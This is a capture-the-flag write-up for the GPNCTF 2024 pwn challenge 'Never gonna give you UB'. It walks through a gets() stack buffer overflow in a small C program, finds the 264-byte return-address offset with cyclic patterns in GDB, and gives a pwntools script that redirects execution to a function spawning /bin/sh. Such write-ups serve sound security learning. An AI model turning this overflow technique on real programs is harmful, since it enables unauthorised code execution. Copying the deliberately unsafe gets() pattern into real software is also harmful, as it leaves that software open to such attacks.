 ```yaml
---
layout: load_md
title: The White Circle | Gpnctf 2024 | Never gonna give you UB Writeup
desc: Check out our writeup for Never gonna give you UB for Gpnctf 2024 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Gpnctf 2024
parent: gpnctf_2024
category: pwn
challenge: Never gonna give you UB
tags: "pwn, ava, win function, pwntools"
date: 2024-06-02T00:00:00+00:00
last_modified_at: 2024-06-02T00:00:00+00:00
---
```



> Solved by : iamavu

We are given a file called `song_rater` amongst other files (Dockerfile and such) with the following security mitigations.

![](https://i.imgur.com/JYzn83H.png)


as there is no PIE, this should be easily solvable as there won’t be random address loading for binary everytime we run the binary, yay!
When we run the binary we get the following

![](https://i.imgur.com/KvLHIve.png)


So it just prints whatever input we get. 

We are also given the C code for the binary, making our job much easier.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// win or flag function which we have to execute somehow for us getting the shell
void scratched_record() {
        printf("Oh no, your record seems scratched :(\n");
        printf("Here's a shell, maybe you can fix it:\n");
        execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

//main function which asks for input without checking input size (gets is security flaw here)
int main() {
        printf("Song rater v0.1\n");
        char buf[0xff];
        printf("Please enter your song:\n");
        gets(buf);
        printf("\"%s\" is an excellent choice!\n", buf);
        return 0;
}
```

I have added comments where necessary, now lets have a look at binary in GDB to find the address of `RIP` so we can put the address of `scratched_record` there and get our flag.


![](https://i.imgur.com/1vmdIB9.png)


We observe that the address of `scratched_record` is `0x0000000000401196`, so we need to somehow put that address in `RIP` instruction pointer.
Let’s buffer overflow!!
We will get big buffer of 300 bytes and see how the program behaves and see which byte ends up in `RBP` .

![](https://i.imgur.com/qpSNWTo.png)


We did `pwn cyclic 300` to get 300 bytes which have certain pattern, and now we will send this as input to program and make it crash.
Why 300? well `0xff` in decimal is `255` so 300 sound pretty good to me.

![](https://i.imgur.com/ZsNFR3a.png)


After crashing the program we see that the byte `haaaaaab` gets into RBP, let’s see how much bytes that is by doing `cyclic -l haaaaaab`

![](https://i.imgur.com/UT4iqsl.png)


We found the offset at 256, now we need to add 8 into that so we get the offset where `RIP` is!
and that is `264`. yay!
Let’s write a simple pwntools script to exploit this now

```python
from pwn import *
win = p64(0x0000000000401196)
overwrite = b"A"*264
payload = overwrite + win
p = process("./song_rater")
p.sendline(payload)
p.interactive()
```

We simply pack the address of `scatched_record` in `win` variable and overwrite `264` bytes and then send that payload to the program and then get an interactive shell!

Let’s run this

![](https://i.imgur.com/2icIWVR.png)


we got the shell!

